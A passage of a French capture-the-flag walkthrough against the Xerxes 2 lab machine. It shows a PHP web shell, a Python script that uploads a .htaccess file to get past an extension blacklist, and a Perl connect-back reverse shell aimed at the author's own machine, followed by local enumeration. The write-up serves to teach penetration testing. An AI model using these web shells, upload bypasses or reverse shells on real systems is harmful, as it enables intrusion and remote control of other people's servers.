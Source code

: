 ```python
fd.close()
```

Il faut alors récupérer une bonne quantité de wordlists et prendre son temps en patiente avant de tomber sur le bon mot de passe. Finalement on obtient le sésame : *45100*.  

On écrit le fichier bd.php que voici :  

```php
<?php system($_GET["cmd"]); ?>
```

puis on l'uploade... Sauf qu'on obtient le message *"Error: illegal file detected."*. Idem avec .php3, .php5, .phtml etc.
Visiblement le script a une liste d'extensions blacklistées pour nous embêter. Et son on essayait de réécrire les directives d'Apache en uploadant un fichier *.htaccess* qui associerait une extension originale au langage PHP ?  

```python
import requests
r = requests.post("http://192.168.1.39/dev/upload.php",
        data={'password':'45100'},
        files={'upload_file':('.htaccess','AddType application/x-httpd-php .yo')})
print r.content
```

Badaboum ! Nice guy take that ! Ça passe :D  

On change l'extension de notre backdoor en *.yo* et l'upload passe nickel.  

![Backdoor PHP en action](https://raw.githubusercontent.com/devl00p/blog/master/images/xerxes2.png)

Maintenant ce serait bien d'avoir un shell, même s'il est basique. Alors on upload la backdoor Perl connect-back de *Data Cha0s* puis on la lance de cette manière :  

```plain
perl dc.pl 192.168.1.3 9999
```

Au préalable sur notre machine (192.168.1.3) au aura mis un port en écoute avec *ncat* (ou *netcat* pour les vieux :D)  

![Connect-back shell](https://raw.githubusercontent.com/devl00p/blog/master/images/xerxes3.png)

Dans les processus on remarque qu'un *Exim* tourne. Les abonnés à *Full-Disclosure* se rapellent peut être qu'un exploit avait été écrit par *KingCope* mais après avoir testé [l'exploit](http://www.securityfocus.com/bid/45341/exploit) il semble que l'on ne soit pas dans la bonne direction.  

On ne trouve rien d'intéressant dans la *crontab* ou dans les ports en écoute.  

Dans le /home on trouve 3 utilisateurs :

```plain
ls -l /home  
total 12
drwxr-xr-x 3 amanpour  amanpour  4096 Dec 19 01:15 amanpour
drwxr-x--- 3 curtiz    curtiz    4096 Dec 20 06:18 curtiz
drwxr-x--- 3 delacroix delacroix 4096 Dec 24 01:34 delacroix
```
